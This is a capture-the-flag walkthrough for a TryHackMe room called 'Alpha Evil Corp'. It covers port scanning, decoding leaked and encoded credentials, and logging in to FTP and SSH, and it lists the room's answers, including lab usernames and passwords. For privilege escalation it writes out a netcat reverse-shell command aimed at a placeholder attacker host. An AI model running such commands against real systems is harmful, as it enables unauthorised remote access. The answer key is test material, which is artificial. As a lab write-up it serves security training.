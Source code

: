 # Tryhackme Challenge: Alpha Evil Corp
## Author: Abhiram B.S.N.
### This room makes you aware about the concept of "Security by Obscurity"

```bash
export IP=MACHINE_IP
```

### Task 1: Decryption of Data

1. Deploy Machine

```
No Answer Needed
```

#### First we do a nmap scan to see open ports

```bash
nmap -sC -sV -vvvv -A -oN nmap.scan.initial $IP -Pn
```

##### Output

```
PORT      STATE  SERVICE         REASON       VERSION
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:71:26:6e:f3:14:4c:39:47:24:f4:e8:94:0b:a9:9c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxtEAu6DKb1vNy6lTKB/v4lJe4vDpYHB/ACA9Kp18xfPO2mHUJdci1iaIZW/dLM8hOGeMwSaxe5u/IDKvn39n0jWsJ6qsaL7eHjzpv3MqkE74mBnF401w8XMGs2cKiGg23/qeiwa9xE9hA7TWm3a08ZSx+1tlDH1J43RSdb9ttRkNxSdzB8d1LICu7bfJibhfts1m8C7cQF1eZ4lFjjZ6BZzzRApCQovjD1QF6VGbsMF64/+Mx/bdGtKRt3ktnAcrLShX1Dw20odsZr/lvm82DlrEGLT4LaNy1scrzGEFdyVfLWfCYjkcHcN9uK/GMzAUaCR6dbKBeabPzjguvl1LX
|   256 9e:62:07:33:0b:1f:34:d9:2c:42:e7:cf:a2:ec:b1:07 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKqKY0X9iPg7KWRJvKnbbRd77no7kUSE908Pcp3RavwBWH1wxvbsUQeqNybalRcW0fOKBXKS0XQUdxEA7TQn2lc=
|   256 30:03:b8:71:f4:b1:20:b3:35:41:4d:19:9d:7f:48:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB6Jgim4HSc5bAef6uRTI2ea55rbUkeRzy1xVmQlrJrm
25/tcp    open   smtp            syn-ack      Postfix smtpd
|_smtp-commands: alphaevilcorp.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=alphaevilcorp.localdomain
| Issuer: commonName=alphaevilcorp.localdomain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-31T10:52:25
| Not valid after:  2030-08-29T10:52:25
| MD5:   bf71 5bf7 3902 10ef e661 c39e edb2 ea4c
| SHA-1: 0836 397a 5b85 350a 59d4 cd95 4a40 a403 a867 a8e0
| -----BEGIN CERTIFICATE-----
| MIIC2DCCAcCgAwIBAgIJAIOK8Hpn59bfMA0GCSqGSIb3DQEBCwUAMCQxIjAgBgNV
| BAMMGWFscGhhZXZpbGNvcnAubG9jYWxkb21haW4wHhcNMjAwODMxMTA1MjI1WhcN
| MzAwODI5MTA1MjI1WjAkMSIwIAYDVQQDDBlhbHBoYWV2aWxjb3JwLmxvY2FsZG9t
| YWluMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA4GWNkH32GEp7YjLf
| bA0nccf0DBCvWJz5Ppwae1Im4Xi4xGen8moKFUhi5XLZpESw7+QmuIh/W4FhbBCZ
| 0gUjf65H9P2oJWFoofjzYQ1Gmft2dtbySkh34WrvM5CpGfygMg+sm06YXfu2OKaL
| B5jmQI/XTHdCUCP9DmJ+E1qDdCeK3+ClHyudgU3ZuHcORMfdS5KMX14Jtfaqe90u
| 7MPjcyjuGSncG52JA4RqpHfG37mepyot4UdZ1K87+TPaX8co6YQTErhdj83gqFgc
| PnQKEDIjsgdnuxBOcaQBj9nrG7/jMXaiOHYYVU8CYDtGUXkqfMNMNWLu/N97VcOr
| bGWXeQIDAQABow0wCzAJBgNVHRMEAjAAMA0GCSqGSIb3DQEBCwUAA4IBAQCg5uBY
| sQdJSNahx4N8duU5HjoazE+2V8Joq1c4IO2VKQomNHhG8wxcqolJuIO10lPEX7Yp
| Xo10ec/fLCyKQGtiRtnguo7rT/dT4+P+9AK9Mv1a0GUbZmfEnX4CPBEs3jLUGkzM
| VnsWLQWniaCeZZ9EZSnCHa+wcHoKfK60MUps3amh/j8nhJwLTAz5cUwWxCOiPMcw
| 75eBvKPY4QtnKNWlxa4d+RQp3A1dVmxGebjYwgjUTFA11tMVsbEGPn+/Syj+Qm4l
| TGNlI9HNd1e0xDU+sByup+7d6Fzn7mbOEK9Ak9b9FP28uCuhgmjAiB977Zwtkwlg
| LIABlluZrq53+/i5
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
110/tcp   open   pop3            syn-ack      Dovecot pop3d
|_pop3-capabilities: UIDL CAPA USER TOP PIPELINING RESP-CODES AUTH-RESP-CODE SASL(PLAIN)
143/tcp   open   imap            syn-ack      Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS OK more LITERAL+ have post-login ENABLE listed capabilities Pre-login ID AUTH=PLAINA0001 SASL-IR IDLE IMAP4rev1
```

2. How many Users' Passwords were leaked?

```
For this we visit the link given in the hint i.e https://pastebin.com/dNnvFTQd
Here we find that <REDACTED> users' passwords were leaked

Ans. 2

But we see that passwords are encoded, on examining the hint we see that the passwords are encoded with
Base58

so we decode the passwords.
```

3. What is the username of the user which has Email with FTP Credentials?

```
As per nmap scan we see that pop3 dovecot port 110 is open

there fore we connect using telnet
```
```bash
telnet $IP 110
```
```
On careful examination of all mails of the users, we see that REDACTED user's mail has the ftp credentials, but these are also encrypted. On careful observation we see that it is a combination of base64 and rot13.
```

```
Ans. john
```

```
On Decoding the cipher we get the username and password of ftp server.
```

4. Username of FTP User?

```
Ans. greer
```

5. Password of FTP User?

```
Ans. james13
```

### Task 2: Access to Box

```
On Accessing the ftp server we find a hidden file .credentials, we download it and upon viewing we see a very peculiar string which appears to be base64 but is not. On seeing the question and the text we guess it is a Vigenere Cipher.

So we again go through the mail server and get the key to the vigenere. But the key is also encypted with rot47
upon decrpytion of key we then decode the cipher, which leads to more encoded text, which is a combination of base64 and rot47.
```
1. Decrypt the cipher?

```
Ans. No answer Needed.
```

2. Key to the Cipher?

```
shbXFrBKApRGLrqlrPmjrWoiUrfTMWfmQGBOnHkwwbcbMmyBKQyQqLUH
```


```
On Decrypting we get the ssh credentials for a low level user
```

3. What is the Username you retrieved from the Deciphered Message?

```
Ans. fusco
```

4. What is the Password you retrieved from the Deciphered Message>

```
Ans. francisco
```

```
On accessing the machine with ssh and enumerating the home directory we get the number of users.
```

5. Number of Users in the Machine? (excluding vagrant) ?

```
7
```

```
On Enumerating we see that fusco can execute netcat (/bin/nc) as shaw (user)
```

6. Which SUID binary gives access to another User?

```
/bin/nc
```

7. To Which user the binary elevates you?

```
shaw
```
```
Elevating to shaw using the following command
```
```bash
sudo -u shaw /bin/nc -e /bin/bash <ATTACKER_IP> <ATTACKER_PORT>
```

```
After elevating to the user shaw we enumerate and we find that shaw can execute 
/usr/bin/nmap as root
```

8. Which SUID binary gives access to root Account?

```
/usr/bin/nmap
```

9. User flag

```
Ans. REDACTED
```

```
Elevating to root by exploiting nmap, we get root
```

10. Root flag

```
Ans. REDACTED
```